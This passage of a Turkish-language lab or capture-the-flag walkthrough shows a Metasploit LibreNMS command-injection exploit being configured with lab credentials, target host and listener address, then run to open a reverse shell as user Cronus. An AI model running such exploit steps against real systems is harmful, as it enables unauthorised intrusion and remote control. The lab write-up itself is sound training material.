 ```terminal
msf6 exploit(linux/http/librenms_addhost_cmd_inject) > options

Module options (exploit/linux/http/librenms_addhost_cmd_inject):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password for LibreNMS
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base LibreNMS path
   USERNAME                    yes       User name for LibreNMS
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux
```
Gerekli parametreler girilerek exploit çalıştırılır.
```terminal
 > set username aeolus
 > set rhosts 127.0.0.1
 > set rport 8080
 > set password sergioteamo
 > set lhost 192.168.56.105
```

Exploit çalıştırıldığında Cronus adlı kullanıcı ile terminal bağlantısı sağlanır. 

*Not: LinEnum ile yapılan keşifte de 8080 portunda çalışan Apache servisi Cronus kullanıcısı yetkisi ile çalışmaktadır.*

```terminal
msf6 exploit(linux/http/librenms_addhost_cmd_inject) > run

[*] Started reverse TCP double handler on 192.168.56.105:4444 
[*] Successfully logged into LibreNMS. Storing credentials...
[+] Successfully added device with hostname LLOYBQ
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Successfully deleted device with hostname LLOYBQ and id #1
[*] Command: echo 4bqnipl207sgGUKw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "4bqnipl207sgGUKw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.56.105:4444 -> 192.168.56.115:57248) at 2020-10-05 14:39:26 -0500
```